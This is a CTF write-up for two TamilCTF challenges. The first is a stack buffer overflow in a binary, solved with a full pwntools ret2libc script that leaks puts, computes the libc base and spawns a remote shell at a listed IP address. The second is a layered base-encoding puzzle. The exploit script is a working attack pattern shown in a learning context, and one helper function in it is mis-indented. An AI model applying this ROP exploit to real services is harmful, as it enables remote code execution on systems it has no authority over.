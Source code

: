 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra



![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930134637.png)



*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}





# Bases 485 Points ,22 solves

***We are give a file encoded in some randome gibrish***
```bash
![image](https://user-images.githubusercontent.com/67697492/135418886-db201b88-1274-4261-ad21-b2184774cea7.png)
```

***After a bit of researching and previous ctf ideas found out that this  is a base65536 encoded file ***
***BASE65536 as per records:***
	> Base65536 is a binary encoding optimised for UTF-32-encoded text. (For transmitting data through Twitter, Base65536 is now considered obsolete; see 		> Base2048.) This JavaScript module, base65536, is the first implementation of this encoding.
	> Base65536 uses only "safe" Unicode code points - no unassigned code points, no whitespace, no control characters, etc..
	
## To deocde the base65536 we first convert it into a unicode using npm module of base65536
```javascript
	import { encode, decode } from 'base65536'
import fs from 'fs'

var  data=fs.readFileSync('file.txt').toString('utf-8')
var decoded = new Uint8Array(decode(data))

fs.writeFileSync('out',decoded)
```
__This gives us a decoded output :26p0EtovXlssmYqbk1UON3JCIFVyYW3V3culA1cJ0AJ8mHvzgWbefttYEpfYlcpt9nh3oZiaWI24d0jzcxBOdq0Ybes3EKUw7GEEfLYM0qpp___
 	> This doesnt look like any known base encodings 
	> After a bit of googling found out that this is a base91 encoded value

Fun thing ***Found a github repo that finds and deocdes the known basex values***

[Github](https://github.com/mufeedvh/basecrack)
	
**After that thats a matter of multiple times of decoding**
	> The order goes like BASE65535->BASE91->BASE62->BASE32->ASCII85->FLAG
***FLAG***
## TamilCTF{B4s3_C1ph3r_4r3_re4lly_c00l!!}
